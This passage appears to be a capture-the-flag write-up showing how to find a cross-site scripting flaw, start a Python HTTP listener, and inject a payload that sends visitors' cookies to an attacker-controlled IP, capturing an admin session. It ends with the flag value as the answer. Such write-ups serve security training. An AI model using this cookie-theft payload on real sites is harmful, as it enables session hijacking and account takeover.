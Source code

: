     Try with `<script>console.log(document.location)</script>`, the target can compromis with XSS.<br>
    ![](images/66.png)<br>
    Create a `SimpleHTTPServer` for listening requests.<br>
    ```
    $ python -m SimpleHTTPServer 80
    Serving HTTP on 0.0.0.0 port 80 ...
    ```
    Now research for XSS payload to steal cookie of others.<br>
    Use payload.
    ```JS
    <script>window.location='http://<YOUR_IP>/?cookie='+document.cookie</script>
    ```
    Result.<br>
    The first authid is mine, below is of admin.<br>
    ![](images/67.png)<br>
    **Answer:** 2564799a4e6689972f6d9e1c7b406f87065cbf65
